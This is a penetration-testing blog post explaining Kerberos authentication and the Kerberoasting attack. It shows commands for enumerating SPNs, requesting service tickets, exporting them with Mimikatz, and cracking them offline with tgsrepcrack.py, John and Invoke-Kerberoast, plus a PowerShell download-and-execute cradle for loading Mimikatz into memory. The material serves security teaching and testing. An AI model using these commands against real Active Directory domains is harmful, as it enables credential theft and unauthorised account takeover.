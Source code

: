 ```yaml
---
title: Kerberoast Attack Techniques
description: >-
  In this blog we will focus on Kerberoast attack techniques (Old Technique and
  New Technique). I will try to cover the basics about Kerberos…
image: images/blog/KR.png
date: '2020-1-14T23:49:15.728Z'
categories: []
keywords: []

---
```


In this blog we will focus on Kerberoast attack techniques (Old Technique and New Technique). I will try to cover the basics about Kerberos protocol and then we will see the attacking techniques from a penetration testing perspective.

#### What is Kerberos?

Kerberos is designed to provide authentication of user identity in a networked computing environment consisting of workstations and servers.

**Kerberos in a Nutshell.** 

The Kerberos authentication system is built on top of tickets served by KDC. The core idea behind Kerberos is that the users don’t share account passwords to each service they want to use. Instead, they share a ticket which they get from KDC.

When a user first starts using the system, they will use their password to get a master ticket called a TGT (**ticket-granting ticket**). This master ticket expires in 25 hours, after which, the user will need to enter the password again to get another one.

When the user needs service access, that uses Kerberos, they will show that master ticket (TGT) to the Kerberos server and get a ticket specifically for that service. Then, shows the ticket just for that service to the service to prove who you are.

**Steps in Kerberos Authentication** 

>  *1\. Password converted to **NTLM hash**, a timestamp is encrypted with the hash and sent to the KDC as an authenticator in the authentication ticket (TGT) request (AS-Request).*

> *2\. The **Domain Controller** (KDC) checks user information & creates **Ticket-Granting Ticket** (TGT).*

> *3\. The TGT is encrypted, signed, & delivered to the user (AS-Reply). Only the Kerberos service (**KRBTGT**) in the domain can open and read TGT data.*

> *4\. The User presents the TGT to the DC when requesting a **Ticket Granting Service** (TGS) ticket (TGS-Request). The data in the TGT is effectively copied to create the TGS ticket.* 

> *5\. The TGS is encrypted using the target service accounts’ NTLM password hash and sent to the user (TGS-Reply).*

> *6\. The user connects to the server hosting the service on the appropriate port & presents the TGS. The service opens the TGS ticket using its NTLM password hash.*

**Kerberos Attacks:**

There are several different types of Kerberos attacks ranging from recon (SPN Scanning), to offline service account password cracking (Kerberoast), to persistence (Silver & Golden Tickets).

> Here are the most popular AD Kerberos attacks: 

> > 1\. **SPN Scanning** — finding services by requesting service principal names of a specific SPN class/type.  
> > 2\. **Silver Ticket** — forged Kerberos TGS service ticket  
> > 3\. **Golden Ticket** — forged Kerberos TGT authentication ticket  
> > 4. **MS14–068 Forged PAC Exploit** - exploitation of the Kerberos vulnerability on Domain Controllers.  
> > Etc.

Now, let’s see how we can leverage the Kerberos implementation to our advantage.

#### Old Technique

We will see and understand the old technique first (i.e. SPN Scanning and then cracking the tickets).

In general, we follow the process below:

1\. Enumerate the domain accounts with SPNs set- either with GetUserSPNS.ps1 script from PowerView’s or Impacket’s “GetUserSPN.py“.  

2\. Request TGSs for these specific SPNs with the built-in Windows tool setspn.exe.  

3\. Extract these tickets from memory by invoking the kerberos::list /export Mimikatz command, with the optional base64 export format set first. The tickets were then downloaded, or the base64-encoded versions pulled down to the attacker’s machine and decoded. (Note: You don’t need admin rights to execute the command :))  

4\. Begin offline password cracking with “tgsrepcrack.py”, or John whit the help for kirbi2john.py.

Let’s see the Demo :)

We can scan the services with windows built-in utility. I have used in-built utility (i.e setspn.exe).

![“setspn.exe” output](/images/blog/1__eV3JOkNM0ez5wyxqO__2AfA.png)
“setspn.exe” output

Now, if you notice we have “CN= Computers” and “CN=Users” for listed service accounts. We will be focusing on “CN=Users” as these are user generated and so we can try to crack :).

![](/images/blog/1__9sdOqlsakZ__WlzlYBCiOBw.png)

Now that we know the service accounts which we will be cracking or trying to crack, let’s go ahead and request Kerberos tickets for specific service accounts.

> **Command**: Add-Type -AssemblyName System.IdentityModel  
> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList “SPN Name”

![Powershell Command (Non Admin User)](/images/blog/1__1pyTys__V3wYA4x3FJAwDXg.png)
Powershell Command (Non Admin User)

Now, we have tickets in memory. We will use Mimikatz to export the tickets from memory. This is one of the down side of this method as you are running Mimikatz this might trigger Alert or this can be detected by AV’s.

Note: You can also load Mimikatz into memory using PowerShell  
“IEX (New-Object Net.WebClient).DownloadString” feature)

> **Command:** Invoke-Pwc -Command ‘“kerberos::list /export” exit”’

![Export Ticket from Memory](/images/blog/1____OEUj3L7XVFHiUezzPPaVw.png)
Export Ticket from Memory![Extracted Tickets](/images/blog/1__pVBtLvCx8qeYC8my6GHZIw.png)
Extracted Tickets

We have successfully extracted the tickets from memory. Can we crack these tickets??  
There are multiple ways to try this. Let’s see how we can leverage tgsrepcrack.py form Kerberoast toolkit.

1 > Using Kerberosast: Tgsrepcrack.py

We have provided the wordlist to crack the kirbi file

> **Command:** C:\\Users\\pratik\\Desktop\\kerberoast>python tgsrepcrack.py dict.txt “Ticket.kirbi”

![Cracked Ticket](/images/blog/1__clSmimsPL3AqYOlYfiL__sg.png)
Cracked Ticket

:) Cracked

2> Convert .kirbi file to John format

Now, we will use John to crack the tickets. We know that tickets are in kirbi format so first we will convert the ticket to John format. We can use Kerberoast (kirbi2john.py) for the same.

![John format](/images/blog/1__bE1vtiRaTiJtutR2vaTWew.png)
John format

> **Command:**./john –format=krb5tgs crack\_file — wordlist=dict.txt

![Cracked using John](/images/blog/1__COgpebl9Pj0CFvI9XCMyYA.png)
Cracked using John

Cracked :)

#### New Technique

HarmJ0y has written a good blog on kerberoasting without Mimikatz. This technique is pretty straight forward and simpler than the old technique :)

What you need is “Invoke-Kerberoast.ps1” and then you are good to go :)  
To crack the tickets, first import “.ps1” module.

This will request the associated TGS Tickets in john or hashcat crackable format :)

![Invoke-Kerberoast](/images/blog/1__6hOtKGmLQB__bbHkxmV54JQ.png)
Invoke-Kerberoast

Crack the tickets using John

![Cracked using John](/images/blog/1__brqC58Ztu1P__ja6un6HNoQ.png)
Cracked using John

Feel free to submit your feedback and comments :)